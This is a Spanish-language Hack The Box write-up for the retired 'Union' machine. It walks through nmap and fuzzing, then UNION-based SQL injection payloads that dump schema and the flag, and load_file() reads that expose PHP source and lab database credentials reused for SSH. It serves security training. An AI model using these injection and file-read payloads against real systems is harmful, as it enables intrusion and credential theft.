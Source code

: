 ```yaml
---
layout: post
title:  "Maquina Retirada Union de Hack The Box (Necesario VIP)"
description: En esta ocasion empezaremos con el Writeup de la maquina de HackTheBox llamada UNION
tags: HTB, SQLI, Local File Inclusion, PHP, x-Forwarder-For, Maquinas Retiradas,
---
```


# Union - SQL Injection ~ Hack The Box

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allports 10.10.11.128       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
 PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 
Procedemos a Enumerar los Recursos de la Web con extension .php :
```bash
Target: http://10.10.11.128/FUZZ.php
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                   
=====================================================================

000000002:   200        42 L     93 W       1220 Ch     "index"                                                                                                                                                                   
000000868:   200        0 L      2 W        13 Ch       "firewall"                                                                                                                                                                
000001477:   200        0 L      0W "config"                                                                                                                                                                
000004086:   200        20 L     61 W       772 Ch      "challenge"
```

Vemos que tenemos un campo vulnerable a Inyecciones SQLI, es importante destacar que0 Nos damos cuenta mediante el uso de los siguientes Payloads
```bash
POST /index.php HTTP/1.1
Host: 10.10.11.128
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 32
Origin: http://10.10.11.128
Connection: close
Referer: http://10.10.11.128/index.php
Cookie: PHPSESSID=g9cr58rofn03mlbo8ouiml4c07

player=admin' union select 1-- -    
```
Respuesta de la Injeccion SQL, en la que vemos que tenemos un solo campo.

```bash
Sorry, "1" you are not eligible due to already qualifying.
```
Procedemos a intentar meterle un segundo payload para enumerar la Base de Datos en la que estamos
```bash
player=admin' union select database()-- -
```

Respuesta
```bash
Sorry, "November" you are not eligible due to already qualifying.
``` 

Como solo tenemos un campo para listar contenido, procedemos a usar la expresion group-concat() 
```bash
player=admin' union select group_concat(schema_name,':') from information_schema.schemata-- -
```
Resppuesta para la enumeracion de Bases de Datos

```bash
Sorry, "mysql:, information_schema:, performance_schema:, sys:, november:" you are not eligible due to already qualifying.
```
Enumeracion de Tablas para la base de datos `November`

```bash
player=admin' union select group_concat(table_name,':') from information_schema.tables where table_schema="November"-- -
```
Resppuesta para la enumeracion de Tablas para la Base de Datos `Ǹovember`

```bash
Sorry, "flag:,players:" you are not eligible due to already qualifying.
```

Enumeracion de Columnas para la Base de Datos `November`
```bash
player=admin' union select group_concat(column_name,':') from information_schema.columns where table_schema="November" and table_name="flag"-- -
```
Respuesta para las Columnas para la Base de Datos `November`

```bash
Sorry, "one:" you are not eligible due to already qualifying.
```
Vemos que solo tenemos una Columna en la Tabla Name `flag` y Base de Datos `November`
Procedemos a listar la data para la columna enumerada `one`

```bash
player=admin' union select one from November.flag-- -
```

Obtenemos la `Data` para la Columna `one` en la Tabla `flag` y en la Base de Datos `November`
```bash
Sorry, "UHC{F1rst_5tep_2_Qualify}" you are not eligible due to already qualifying.
```

Encontramos la flag que nos piden la introducimos en la ruta `/challenge` y vemos que nos abren el el puerto SSH pero no tenemos ninguna usuario ni clave ni na de na para conectarnos.
```bash
Welcome Back!
Your IP Address has now been granted SSH Access.
```

Procedemos a intentar listar informacion tipo `Local File Inclusion` atraves de la `SQLI` 
```bash
player=admin' union select load_file("/var/www/html/index.php")-- -
```

Vemos que listamos el codigo fuente del Archivo  `index.php`

```bash
Sorry, <?php
  require('config.php');
  if ( $_SERVER['REQUEST_METHOD'] == 'POST' ) {

	$player = strtolower($_POST['player']);

	// SQLMap Killer
	$badwords = ["/sleep/i", "/0x/i", "/\*\*/", "/-- [a-z0-9]{4}/i", "/ifnull/i", "/ or /i"];
	foreach ($badwords as $badword) {
		if (preg_match( $badword, $player )) {
			echo 'Congratulations ' . $player . ' you may compete in this tournament!';
			die();
		}
	}

	$sql = "SELECT player FROM players WHERE player = '" . $player . "';";
	$result = mysqli_query($conn, $sql);
	$row = mysqli_fetch_array( $result, MYSQLI_ASSOC);
	if ($row) {
		echo 'Sorry, ' . $row['player'] . " you are not eligible due to already qualifying.";
	} else {
		echo 'Congratulations ' . $player . ' you may compete in this tournament!';
		echo '<br />';
		echo '<br />';
		echo 'Complete the challenge <a href="/challenge.php">here</a>';
	}
	exit;
  }
?>
```

Procedemos a listar informacion del archivo `config.php`

```bash
player=admin' union select load_file("/var/www/html/config.php")-- -
```
Respuesta de la inyeccion SQL `load_file()`

```bash
Sorry, <?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
 you are not eligible due to already qualifying.
```

Ya tenemos credenciales para conectarnos por SSH como `uhc` a la maquina.

Procedemos a conectarnos por SSH






































